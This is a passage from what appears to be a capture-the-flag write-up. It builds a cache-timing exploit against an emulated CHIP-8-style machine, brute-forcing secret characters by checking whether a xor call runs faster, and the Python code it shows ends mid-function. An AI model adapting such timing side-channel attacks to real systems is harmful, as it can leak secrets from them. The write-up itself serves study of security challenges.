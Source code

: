 Now we can begin to write our exploit

#### Exploit

First we want to call the xor function with `I` set to `"0123456789"` then bruteforce for each char, the index where it appears.

To do that we call a simple `xor` instruction with two value `idx` and `check` then call the main xor function and check if it was faster.
If so that mean there is a char `check` at `idx`.

Once implemented it looks like that

```python
def  set_addr_to_0123456789(addr):
	asm = ""
  
	# save reg
	asm += _mov(I=True, NNN=stack_base + 0x30)
	asm += _reg_dump(X=0xF)
  
	for nb in  range(10):
		asm += _mov(X=nb, NN=nb)
  
	asm += _mov(I=True, NNN=addr)
	asm += _reg_dump(X=0x9)
  
	# load reg
	asm += _mov(I=True, NNN=stack_base + 0x30)
	asm += _reg_load(X=0xF)
  
	return asm


def  bf_char(idx, addr, pc):
	asm = ""
  
	# save reg
	asm += _mov(I=True, NNN=stack_base + 0x40)
	asm += _reg_dump(X=0xF)
  
	# V0xD will be our idx
	asm += _mov(X=0xd, Y=idx)
  
	# set V0xe to -1
	asm += _mov(X=0xe, NN=0xff)
  
	# label _loop
	_loop = 0x0200 + pc + len(asm) // 2
  
	# incr V0xe
	asm += _add(X=0xe, NN=1)
  
	# reset cache
	asm += _empty_cache()
	# fill addresse with "0123456789"
	asm += set_addr_to_0123456789(addr=stack_base + 0x50)
	# I will point to "0123456789"
	asm += _mov(I=True, NNN=stack_base + 0x50)
  
	# do or xor with V0xd idx and V0xe our check
	asm += _mov(X=0x0, Y=0xd)
	asm += _mov(X=0x2, Y=0xe)
	asm += _xor(X=0x0, Y=0x2)
  
	# call their xor function
```